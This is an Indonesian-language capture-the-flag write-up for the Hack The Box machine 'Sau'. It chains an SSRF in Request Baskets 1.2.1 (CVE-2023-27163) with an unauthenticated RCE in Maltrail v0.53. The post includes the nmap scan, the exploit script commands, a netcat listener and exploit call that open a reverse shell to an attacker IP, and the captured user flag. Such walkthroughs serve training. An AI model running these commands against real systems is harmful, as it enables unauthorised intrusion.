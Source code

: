 # Sau  
**SOLVED : ... | 2023**  


## nmap
![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/fe6b7754-9647-4603-a391-2710a78c4113)
  
```
nmap 10.10.11.224 -p- -sVC  --min-rate 1000
```
![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/76a92f3a-8783-4a05-9465-faa647c0527f)  
Port yang open di **22** dan **55555**, maka dicoba diakses pada `10.10.11.224:55555`  
![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/f72067ae-be68-42ee-9c60-37a7bbbfb02e)  
  
## exploit
1. Pertama-tama dicoba untuk mengakses `10.10.11.224:55555` yang ternyata diarahkan kedalam sebuah "Request Baskets" dengan versi **1.2.1**  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/c142b35b-30f1-4c2e-b9ad-63e7abc44d70)  

2. Setelah itu dilakukan sedikit research lagi dan ditemukan ternyata adanya kerentanan pada "Request Baskets" dengan versi **1.2.1**, yaitu pada (CVE-2023-27163), disini kerentanannya adalah kemungkinan dilakukannya **Server-Side Request Forgery (SSRF)**  
   ```md
   # (CVE-2023-27163)
   Attackers to access network resources and sensitive information by exploiting the /api/baskets/{name} component through a crafted API request.
   Source : https://github.com/entr0pie/CVE-2023-27163
   ```
3. Dari sini, saya menggunakan tools untuk melakukan exploitasi dengan menggunakan https://github.com/entr0pie/CVE-2023-27163. Tools ini membantu untuk mengakses **port 80** yang sebelumnya berstatus **http filtered**.  
   Commands :
   ```
   ./CVE-2023-27163.sh http://10.10.11.224:55555/ http://127.0.0.1:80/
   ```
   
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/0f7b1fee-14fd-4498-9b5b-72f9184f5c40)
     
   Masukan token sesuai dengan yang diterakan pada tools.  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/2c264771-06dc-43a4-ad9f-2c9d311ff997)
     
   Coba untuk mengakses `10.10.11.224:55555/qsaeyb` yang sebenarnya akan diarahkan pada **http** yakni di port 80.  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/6f2642f0-346b-41d9-b594-fa93ef88110e)  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/8c6b244b-dbaf-4cce-a92a-051c01c69dca)  
   Dapat dilihat pada website ini menampilkan situs **Mailtrail (v0.53)**  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/a964462b-83ac-47c3-984e-6a037e2b1153)
   Request juga tertangkap pada web sebagaimana fungsi asli dari "Request Baskets".  

4. Setelah itu dilakukan sedikit research lagi dan ditemukan ternyata adanya kerentanan pada "Mailtrail" dengan versi **0.53**, yaitu dapat dilakukan "Unauthenticated Remote Code Execution Exploit"
5. Dari sini, saya kembali menggunakan tools dari https://github.com/HusenjanDev/CVE-2023-27163-AND-Mailtrail-v0.53 untuk melakukan exploitnya
   Command yang saya gunakan adalah  
   ```
   nc -lvnp 8333
   python3 exploit.py 10.10.16.42 8333 http://10.10.11.224:55555/qsaeyb/login
   ```
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/d35f770f-e674-4ced-81d3-692c825cfe44)  
   Jika belum melakukan _listen_ maka akan menuliskan "Login Failed" sama halnya dengan jika mengakses `http://10.10.11.224:55555/qsaeyb/login`  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/c3629ccc-d094-4f24-bb4c-a019cb1ec9b9)
6. Setelah berhasil masuk, maka dilakukan pencarian _user.txt_
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/a3be1d70-5eda-410b-843f-813eb7260985)  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/39e74b81-b93f-484d-9f99-499dc0a1d428)  
   **USER FLAG : 22366e50cf5e2f0f6ccceacadf92fef1**




   
